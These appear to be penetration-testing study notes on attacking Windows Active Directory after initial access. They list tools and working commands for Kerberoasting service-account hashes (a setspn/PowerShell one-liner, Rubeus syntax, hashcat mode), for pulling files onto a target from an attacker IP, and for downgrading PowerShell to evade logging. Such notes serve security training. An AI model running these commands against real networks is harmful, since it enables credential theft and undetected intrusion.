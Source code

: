 The final goal for a machine is to get to  `NT AUTHORITY\SYSTEM` 

## After initial access
Once we have gained access and got credentials, we can gather more information or connect to the host with the following methods:
 - CrackMapExec: with `-U <username> -p <password>` to query usernames, groups, logged on users, ...
- BloodHound: can be used to recover active sessions (logged on users)
- SMBmap
- Impacket: (psexec, wmiexec)
	- psexec: Create remote connection to host (via RPC) and give us an interactive remote shell as SYSTEM. Need a user with local admin privileges

#### Windows
- ActiveDirectory module for powershell
- powerview
- Snaffler (for credentials hunt in shares)
- BloodHound (for visualization) with SharpHound (for data collection)

## Methods for Privesc
- Try [[LLMNR & NBT-NS Poisoning]]
- Retry password spraying and hope to find an admin account
- Windows exploits, such as Eternal Blue
- Abusing running services (normal privesc)
- Kerberoasting
- Abusing `SeImpersonate` (check with `whoami /all`) with [Juicy Potato](https://github.com/ohpe/juicy-potato)
- Find other vulnerabilities with standard method or through `winpeas` (normal privesc)

### Kerberoasting
Abuses the Kerberos protocol to harvest password hashes (TGS ticket) for AD users with Service Principal Name (SPN) values (service accounts). These hashes can then either be cracked offline, or we can use pass-the-hash functionalities (in `evil-winrm` for example).

Steps:
- Find accounts with SPN
- Trigger kerberoast attack with tools such as Rubeus
- Take hashes offline and use hashcat -m 13100

Tools:
- GetUserSPN from Impacket (python)
- kerberoast ()
- targetedKerberoast
- Rubeus

#### From Windows
- Enumerate SPN with native command `setspn.exe`
- Manually: load ticket into memory using Powershell:
	- ```Add-Type -AssemblyName System.IdentityModel
	- `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
- using `setspn.exe`:
	- `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
- Extract ticket from memory using mimikatz
- Use kirbi2john
- hashcat

We have quicker method with tools doing most of the work:
- PowerView
- Rubeus
	- Example: `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

## Bloodhound
Running SharpHound/BloodHound is always a good idea on the target. It helps use see the paths that can be taken from our user to domain admins / domain controllers.

The results can be taken back locally on our machine and analysed.

## Transfer Files
- `wget <ip> -o <target>`
- curl
- certutil
- `(New-Object System.Net.WebClient).DownloadFile(<ip>, <target>`
- scp
- ftp/tftp

## Living off the Land (LOTL)
- powershell can be downgraded with `powershell.exe -version 2`. Interesting as version 2 does not have log system enabled, meaning we will be stealthier
- Check defenses with `netsh` and `sc`
- Check network with: 
	- `arp -a`
	- `route print`
	- `ipconfig /all`
- Check WMI: Windows Management Instrumentation
- `Net` commands (accounts, group, localgroup, ..)
- [`dsquery`](https://www.aud507.com/media/DSQuery.pdf)
- [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps): check defenses

For other Powershell commands, check [[Powershell Cheatsheet]]

## Once admin
- enumerate the domain (with tool such as Bloodhound for example or windapsearch)
- Kerberoasting
- SMB relay attacks
- gather Net-NTLMv2 hashes
- token impersonation
- ACL attacks